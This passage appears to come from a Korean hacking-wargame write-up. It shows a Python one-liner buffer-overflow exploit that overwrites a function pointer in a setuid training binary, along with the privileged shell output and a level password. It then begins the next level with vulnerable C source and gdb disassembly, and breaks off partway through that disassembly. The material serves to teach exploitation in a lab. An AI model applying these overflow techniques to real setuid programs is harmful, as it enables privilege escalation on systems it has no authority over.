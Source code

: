 ```
0x080484fc <shell+44>:	ret
0x080484fd <shell+45>:	lea    esi,[esi]

### 4. exploit code
(python -c 'print "A"*40+"\xd0\x84\x04\x08"';cat) | ./attackme
이번에는 다음 call 할 함수의 주소를 bof 시켜 변경하게 된다.
id
uid=3097(level17) gid=3096(level16) groups=3096(level16)
my-pass
'xterm-256color': unknown terminal type.
Level17 Password is "king poetic".

## Level17

### 1. Directory info
-rwsr-x---    1 level18  level17     13853  3월  8  2003 attackme

-rw-r-----    1 root     level17       191  3월  8  2003 hint

drwxr-xr-x    2 root     level17      4096  2월 24  2002 public_html

drwxrwxr-x    2 root     level17      4096  1월 11  2009 tmp

### 2. hint

```c
#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}
```

### 3. gdb attackme
```asm
0x080484a8 <main+0>:	push   ebp
0x080484a9 <main+1>:	mov    ebp,esp
0x080484ab <main+3>:	sub    esp,0x38
; esp = ebp-56
0x080484ae <main+6>:	mov    DWORD PTR [ebp-16],0x8048490
0x080484b5 <main+13>:	sub    esp,0x4
0x080484b8 <main+16>:	push   ds:0x804967c
;stdin
0x080484be <main+22>:	push   0x30
;48
0x080484c0 <main+24>:	lea    eax,[ebp-56]
; buf
0x080484c3 <main+27>:	push   eax
0x080484c4 <main+28>:	call   0x8048350 <fgets>
0x080484c9 <main+33>:	add    esp,0x10
; esp + 16
0x080484cc <main+36>:	sub    esp,0x8
; esp - 8
0x080484cf <main+39>:	push   0xc1a
```